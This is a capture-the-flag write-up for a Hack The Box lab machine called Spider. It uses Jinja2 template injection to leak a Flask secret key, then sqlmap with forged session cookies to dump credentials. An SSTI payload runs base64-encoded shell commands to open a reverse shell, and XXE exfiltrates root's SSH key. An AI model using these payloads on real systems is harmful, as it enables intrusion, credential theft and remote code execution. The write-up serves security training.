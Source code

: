 # Spider

## Initial Foothold

First as always, `nmap`

```
# Nmap 7.92 scan initiated Mon Sep 20 12:46:36 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.10.243
Nmap scan report for 10.10.10.243
Host is up, received syn-ack (0.053s latency).
Scanned at 2021-09-20 12:46:44 +07 for 8s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZKP7Ebfve8CuM7AUHwkj38Y/0Pw04ub27AePqlhmH8FpgdDCkj3WINW8Yer3nmxZdh7zNadl6FZXYfmRRl/K3BC33Or44id3e8Uo87hMKP9F5Nv85W7LfaoJhsHdwKL+u3h494N1Cv0n2ujJ2/KCYLQRZwvn1XfS4crkTVmNyrw3xtCYq0aCHNYxp51/WhNRULDf0MUMnA78M/1K9+erVCg4tOVMBisu2SD7SHN//E2IwSfHJTHfyDj+/zi6BbKzW+4rIxxJr2GRNDaPlYXsm3/up5M+t7lMIYwHOTIRLu3trpx4lfWfIKea9uTNiahCARy3agSmx7f1WLp5NuLeH
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLxMnAdIHruSk1hB7McjxnudQ7f6I5sKPh1NpJd3Tmb9tedtLNqqPXtzroCP8caSRkfXjtJ/hp+CiobuuYW8+fU=
|   256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJq0AuboJ6i4Hv3fUwQku//NLipnLhz1PfrV5KZ89eT
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 20 12:46:52 2021 -- 1 IP address (1 host up) scanned in 16.10 seconds
```

Looking at the web server on port 80, we're redirected to `spider.htb` so we add the domain name to `/etc/hosts` and fuzz subdomains.

```sh
$ ffuf -u "http://spider.htb/" -H "Host: FUZZ.spider.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 194
```

That, however, gives us nothing. Looking at the website, the source code includes a comment.

> We have enabled rate limiting to keep pesky hax0rs from attacking our service.

Looks like we won't be brute-forcing things. Looking around the page, we find that without being logged in, we're only able to visit `/login`, `/register`, and `/product-details` pages. Looking at the `product-details` pages, we see that all the products are posted by the user "chiv", which we note as a potential target user, possibly and admin.

![](chiv.png)

Looking at the `/login` page, the username uses UUIDs which are generally randomly generated and can't be brute-forced. Since we can register an account, we'll do just that and should be given a UUID to log in with.

Logged in, we see that we have the cookie "session" which is a JWT token with our cart info and UUID. We might be able to log in as another user if we can find the secret so we make note of that.

Looking at the "User information" page at `/user`, we have our username and UUID. We can't change our username or UUID but we do have the username being reflected here. Among other things, I tested for Server-side Template Injection (SSTI). Registering a user named `{{7*7}}` gives us `49` in the username, while `{{"7"*7}}` gives us `7777777`. With some more testing, we can confirm that the backend is [Flask](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti). Unfortunately, we can't use long SSTI payloads since there's a limit of 10 characters on the username. I registered a user named `{{config}}` which give the following data in the injected username.

```
<Config {
'ENV': 'production',
'DEBUG': False,
'TESTING': False,
'PROPAGATE_EXCEPTIONS': None,
'PRESERVE_CONTEXT_ON_EXCEPTION': None,
'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942',
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
'USE_X_SENDFILE': False,
'SERVER_NAME': None,
'APPLICATION_ROOT': '/',
'SESSION_COOKIE_NAME': 'session',
'SESSION_COOKIE_DOMAIN': False,
'SESSION_COOKIE_PATH': None,
'SESSION_COOKIE_HTTPONLY': True,
'SESSION_COOKIE_SECURE': False,
'SESSION_COOKIE_SAMESITE': None,
'SESSION_REFRESH_EACH_REQUEST': True,
'MAX_CONTENT_LENGTH': None,
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
'TRAP_BAD_REQUEST_ERRORS': None,
'TRAP_HTTP_EXCEPTIONS': False,
'EXPLAIN_TEMPLATE_LOADING': False,
'PREFERRED_URL_SCHEME': 'http',
'JSON_AS_ASCII': True,
'JSON_SORT_KEYS': True,
'JSONIFY_PRETTYPRINT_REGULAR': False,
'JSONIFY_MIMETYPE': 'application/json',
'TEMPLATES_AUTO_RELOAD': None,
'MAX_COOKIE_SIZE': 4093,
'RATELIMIT_ENABLED': True,
'RATELIMIT_DEFAULTS_PER_METHOD': False,
'RATELIMIT_SWALLOW_ERRORS': False,
'RATELIMIT_HEADERS_ENABLED': False,
'RATELIMIT_STORAGE_URL': 'memory://',
'RATELIMIT_STRATEGY': 'fixed-window',
'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset',
'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining',
'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit',
'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After',
'UPLOAD_FOLDER': 'static/uploads'
}>
```

We have a secret key. We can use this to sign the session cookies[(1)](https://flask.palletsprojects.com/en/1.1.x/config/#SECRET_KEY)[(2)](https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key). According to hacktricks, we can try [sqlmap on Flask](https://book.hacktricks.xyz/pentesting/pentesting-web/flask#sqli-in-flask-session-cookie-with-sqlmap) with the secret key. We just need to install `flask_unsign` with `pip install flask-unsign` and run the following.

```sh
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump --batch --delay 1
```

Among the dumped results is chiv's credentials

```sh
cat ~/.local/share/sqlmap/output/spider.htb/dump/shop/users.csv
id,uuid,name,password
1,129f60ea-30cf-4065-afb9-6be45ad38b73,chiv,ch1VW4sHERE7331
[snip]
```

With that, we should be able to log in as chiv. Viewing messages, we have the following message.

> Fix the /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal portal!

We have a new page to play with. Trying SSTI in the "Contact number or email:" field, we get the following error.

```
Why would you need '{{' or '}}' in a contact value?
```

Looks like a guard against SSTI. `{{ }}` can't be used. `{% %}`, however, isn't blacklisted and submitting `{% 7*7 %}` and `{% debug %}` as  contact give us HTTP 500 errors so we know that input is processed somehow. Looking for Flask/Jinja SSTI payloads for code execution using `{% %}` instead of `{{ }}`, I found some on [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-remote-code-execution). I used the following payload.

```
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n BASE64_ENCODED_SHELL_COMMAND | base64 -d | bash")["read"]() %} a {% endwith %}
```

With a listener set, I submitted a support ticket with that as the contact and got a shell as "chiv" on the machine.

## Privilege Escalation

We can grab chiv's `id_rsa` and SSH in as chiv. Looking at listening ports ...

```sh
chiv@spider:~$ ss -tlnp
State         Recv-Q          Send-Q                    Local Address:Port                   Peer Address:Port
LISTEN        0               80                            127.0.0.1:3306                        0.0.0.0:*
LISTEN        0               128                             0.0.0.0:80                          0.0.0.0:*
LISTEN        0               100                           127.0.0.1:8080                        0.0.0.0:*
LISTEN        0               128                       127.0.0.53%lo:53                          0.0.0.0:*
LISTEN        0               128                             0.0.0.0:22                          0.0.0.0:*
LISTEN        0               128                                [::]:22                             [::]:*
```

We see port 8080 which we didn't have in our `nmap` scan. We can use SSH to port forward this.

```sh
ssh -i id_rsa chiv@spider.htb -L 8080:localhost:8080 -N
```

Visiting the page, we get a login page. Looking at the source code, we have a hidden element with a version.

```html
<input type="hidden" id="version" name="version" value="1.0.0">
```

This version string is part of the input form and gets with the request when we log in. Unsure of what software that version is of, we make note of it and move on. Looking around the login page, the only thing we can do is login with a random name. After logging in, the only link that works is the logout button. Looking at the cookies,  we have a "session" cookie. The other web application was Flask so this one might also be Flask. With that assumption, I looked back at [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign) and found that we can decode cookies with `flask-unsign`.

```sh
$ flask-unsign --decode --cookie '.eJw1zE1vgjAAxvGvsvS8A3XGZBybtnRoIS19kd5sugSUAkOyMY3ffRqz45PfP88VdEvsQHoFLx6kQJOCBrIoccqNtHNvIrSflv965tqDpmuVjShoiMVecoPlTpNmG-LHRVczvntf6QKVdGTyiNzDH9slHRY25CIha0eb0mfFXNimNVBP1si3EGWt4nL0ygx1F8w2KcZn__xzEDHPxpqf3HT3czDoS6iG87hsLM6zwyrfe2aEW73_97i0s7M0H3QWvkvyc6l613JIJnB7BePQ9vMZpMntDzT_U6g.YUnEcA.gN-vX2W5URfNswb3n68-riXydwI'
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}
```

We have an interesting string: `lxml`. Base64-decoding it gives us some XML.

```sh
$ echo 'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+' | base64 -d
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>a</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

We have API version 1.0.0, the same version we saw earlier in the hidden HTML element. We can hazard a guess that this version string is reflected from the version parameter that gets sent when we log in. With that in mind, we can craft our own XML and exploit XXE (eXternal XML Entity) by intercepting the login and editing the POST parameters. Assuming everything in the parameter `version` is reflected, I tried exfiltrating `/etc/passwd`.

![](burp-etc_passwd.png)
![](etc_passwd.png)

It works. Let's try changing the payload to exfiltrate root's SSH key.

![](burp-root.png)
![](root_id_rsa.png)

With that, we should be able to SSH in as root.

